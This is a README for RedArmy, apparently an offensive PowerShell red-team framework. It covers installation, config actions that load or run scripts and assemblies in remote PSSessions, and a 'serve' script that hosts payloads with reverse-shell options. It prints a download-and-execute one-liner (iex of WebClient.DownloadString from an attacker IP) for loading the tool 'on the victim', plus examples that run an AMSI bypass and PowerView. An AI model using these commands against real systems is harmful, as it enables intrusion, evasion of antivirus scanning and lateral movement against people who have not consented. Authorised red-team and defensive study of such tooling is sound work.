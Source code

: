 # RedArmy

## Installation

```
$ git clone https://gitlab.com/mjwhitta/redarmy.git
$ cd ./redarmy
$ ./scripts/update
```

## Configuration

RedArmy uses `config.default` as [the default config]. You can copy it
to `config` and add or delete lines as necessary.

Config entries look like the following:

```
name action path
```

Name and path are fairly self-explanatory. Actions are as follows:

- `get`
    - Creates
        - `Get-<name>`
            - Get file contents
        - `Deploy-<name>`
            - Create ScriptBlock and run in provided PSSession
- `get-bin`
    - Creates
        - `Import-<name>`
            - Create assembly object and load into memory
        - `Deploy-<name>`
            - Create assembly object and load into memory in provided
              PSSession
- `run`
    - Creates
        - `Get-<name>`
            - Get file contents
        - `Invoke-<name>`
            - Run `iex` on file contents
        - `Invoke-<name>InBg`
            - Run `iex` on file contents in background
        - `Deploy-<name>`
            - Create ScriptBlock and run in provided PSSession
        - `Deploy-<name>InBg`
            - Create ScriptBlock and run in provided PSSession in
              background
- `run-bin`
    - Not yet implemented

See [the default config] for examples. See [Examples](#examples) for
more details on how to use these functions.

[the default config]: ./config.default

## Usage

```
$ ./serve -h
Usage: serve [OPTIONS] <ip>

Spin up a simple HTTP(S) server to host the RedArmy scripts.

Options:
    --cert=PEM           Use the specified cert PEM file for TLS,
                         implies --tls, requires --key
    -c, --config=FILE    Use the specified config
    -h, --help           Display this help message
    --invade=FILE        Use the specified invade filename instead of
                         invade.html
    --key=PEM            Use the specified key PEM file for TLS,
                         implies --tls, requires --cert
    -n, --ngrok          Use ngrok for TLS (ensure ssh is
                         pre-configured)
    --no-color           Disable colorized output
    -p, --port=NUM       Use the specified port (default: 8080 for
                         HTTP, 8443 for TLS)
    -r, --rport=NUM      Use the specified port for reverse shell
                         (default: 4444)
    --rshell=FILE        Use the specified rshell filename instead of
                         rshell.html
    --skip-validation    Disable TLS certificate validation (for use
                         with self-signed certs)
    --tls                Use TLS
    -u, --update         Update git submodules before starting server
```

Once the `serve` script is running, you can use the following to load
RedArmy on the victim:

```
PS> iex ((New-Object System.Net.WebClient).DownloadString("http://<ip>:<port>/invade.html"))
```

That command will also displayed for you to copy and paste for
convenience.

### Examples

- Load ps1 script into current session
    - `iex (Get-PowerView)`
- Load ps1 script into specified session
    - `Deploy-PowerView <session>`
- Load binary object into current session
    - `Import-ADModule`
- Load binary object into specified session
    - `Deploy-ADModule <session>`
- Run ps1 script in current session
    - `Invoke-AMSIBypass`
- Run ps1 script in current session in background
    - `Invoke-AMSIBypassInBg`
- Run ps1 script in specified session
    - `Deploy-AMSIBypass <session>`
- Run ps1 script in specified session in background
    - `Deploy-AMSIBypassInBg <session>`
